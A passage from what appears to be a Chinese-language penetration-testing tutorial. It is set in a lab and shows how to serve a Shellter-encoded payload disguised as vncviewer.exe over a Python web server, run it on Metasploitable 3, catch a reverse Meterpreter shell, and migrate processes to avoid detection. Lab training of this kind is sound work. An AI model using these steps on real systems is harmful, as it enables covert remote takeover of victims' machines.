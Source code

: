 以下是前述命令序列的解析：

+   `windows/meterpreter/reverse_tcp`载荷确保当连接被检测到时，Metasploit 会将此载荷发送到目标系统，该载荷将在内存中执行并创建一个反向 Shell 回到 Kali Linux 机器。

+   `LHOST`和`LPORT`参数用于设置 Kali Linux 上的本地 IP 地址和监听端口。

+   `AutoRunScript post/windows/manage/migrate`命令确保一旦从受害者系统与 Kali Linux 建立连接，Metasploit 将自动将目标系统上的进程迁移到另一个进程，从而减少被检测的机会。

+   `exploit`命令用于在 Metasploit 中执行载荷或利用模块。

1.  接下来，让我们将自定义负载交付到如**Metasploitable 3**的 Windows 系统上，该系统位于我们虚拟实验室环境中的`172.30.1.0/24`网络。打开 Kali Linux 中的新**Terminal**（#2），并使用以下命令启动 Python3 网络服务器：

```
kali@kali:~$ python3 -m http.server 8000
```

Python3 网络服务器将使我们能够从 Kali Linux 机器下载文件到实验环境中的其他系统。

1.  接下来，启动**Metasploitable 3**虚拟机并使用用户名`Administrator`和密码`vagrant`登录到桌面。

1.  在**Metasploitable 3**中，打开网页浏览器并访问`http://172.30.1.50:8000/vncviewer.exe`下载并保存负载。

1.  接下来，在**Metasploitable 3**上执行`vncviewer.exe`文件，注意反向 Shell 已在**Kali Linux**上的**Terminal #1**捕获，如下所示：

![](img/file344.png)

如前所示的截图所示，Metasploit 监听模块捕获了来自`172.30.1.48`的反向连接，然后交付了一个附加负载以建立 Meterpreter shell 并将运行的进程 ID 迁移到受害系统上。此外，使用 Meterpreter 中的`sysinfo`命令可以让我们获取关于受损系统的系统信息。

> 一旦获得 Meterpreter shell，使用`help`命令查看执行操作和收集受损机器信息的命令列表。

并非所有基于 Windows 的可执行文件都能与 Shellter 一起使用。在使用 Shellter 时，确保 Shellter 编码的 PE 文件在目标系统上运行足够长的时间，以便从 Kali Linux 向目标系统交付阶段性负载，这是非常重要的。

1.  最后，使用 Meterpreter 中的`getuid`命令来确定运行我们负载的用户账户，如下所示：

![](img/file345.png)
